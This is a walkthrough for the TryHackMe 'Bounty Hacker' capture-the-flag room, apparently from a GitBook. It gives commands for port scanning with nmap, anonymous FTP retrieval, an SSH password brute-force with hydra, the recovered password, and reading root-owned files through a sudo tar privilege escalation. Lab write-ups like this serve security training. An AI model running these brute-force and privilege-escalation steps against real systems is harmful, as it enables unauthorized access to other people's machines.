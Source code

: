 ```yaml
---
description: https://tryhackme.com/room/cowboyhacker
---
```


# Bounty Hacker

### **Find open ports on the machine**

```
nmap 10.10.167.65
```

![](<../../.gitbook/assets/Screenshot from 2020-09-17 08-07-15.png>)

### &#x20;**Who wrote the task list?**&#x20;

```
lftp 10.10.167.65 -u anonymous,
lftp :~> set ftp:passive-mode off
lftp :~> ls -a
lftp :~> cat task.txt
lftp :~> cat locks.txt
lftp :~> get locks.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-17 08-10-01.png>)

### **What service can you bruteforce with the text file found?**

```
hydra -l lin -P locks.txt ssh://10.10.167.65 -I -f -V -t64
```

![](<../../.gitbook/assets/Screenshot from 2020-09-17 08-12-58.png>)

### **What is the users password?**&#x20;

> RedDr4gonSynd1cat3

### **user.txt**

```
ssh lin@10.10.167.65 cat /home/lin/Desktop/user.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-17 08-15-46.png>)

### **root.txt**

```
sudo -l
sudo /bin/tar cvf root.tar /root/root.txt
sudo /bin/tar xvf root.tar -O
```

![](<../../.gitbook/assets/Screenshot from 2020-09-17 08-24-11.png>)
